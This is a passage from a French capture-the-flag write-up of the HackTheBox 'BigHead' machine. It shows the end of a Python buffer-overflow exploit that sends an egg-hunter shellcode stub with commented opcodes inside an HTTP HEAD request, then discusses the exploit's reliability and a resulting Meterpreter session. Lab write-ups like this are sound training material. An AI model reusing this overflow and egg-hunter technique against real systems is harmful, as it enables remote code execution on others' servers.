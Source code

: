 ```python
        sock.recv(4)
    except socket.timeout:
        pass
    sock.close()

sock = socket.socket()
sock.connect((TARGET, PORT))
print("Sending shellcode...")

shellcode = "/90"          # change to /CC for debuging
shellcode += "5E"          # pop esi
# put tag minus one in ebx
shellcode += "bb" + hexlify(struct.pack("I", egg_minus_one)).decode()
shellcode += "43"          # inc ebx
shellcode += "8b06"        # mov eax, [esi]
shellcode += "46"          # inc esi, 4
shellcode += "31d8"        # xor eax, ebx
shellcode += "75f9"        # jnz
shellcode += "464646"      # inc esi 3 times
shellcode += "ffe6"        # jmp esi

shellcode += "A" * (73 - len(shellcode))

buff = "HEAD " + shellcode + hexlify(struct.pack("I", jmp_eax)).decode()
buff += " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n"
print("buff length is", len(buff))

sock.send(buff.encode())
sleep(1)
sock.close()
```

Cette fois l'exploit est d'une fiabilité parfaite : le shellcode final est exécuté et le thread termine proprement.  

Comme on cherche directement dans le tas il est aussi rapide alors que d'autres participants ont indiqué sur le forum de *HackTheBox* attendre plusieurs minutes avant l'arrivée du shell :)  

Après il peut arriver sur le CTF que l'exploit n'aboutisse pas. Parmi les raisons possibles on peut mentionner les dirbuster lancés sur le serveur qui ont pris la totalité de la mémoire (je rappelle qu'il manque des appel à *free()*) ou encore une collision sur le tag (moins probable si on le choisit correctement) qui amènera à un crash ou l'exécution d'un payload qui n'est pas le notre :D  

Dans tous les cas, la réelle configuration *Nginx* fait du load-balancing pour transférer les requêtes à l'une des dix instances de *BigHeadSvr.exe*. Par conséquent si ça ne marche pas du premier coup il suffit de relancer l'exploit.  

Nelson of a batch
-----------------

Une fois notre session Meterpreter obtenue (aucun AV ne tourne sur la machine, ça soulage un peu) on a la déception de voir que l'utilisateur Nelson n'a pas le flag *user.txt* sur son bureau...  
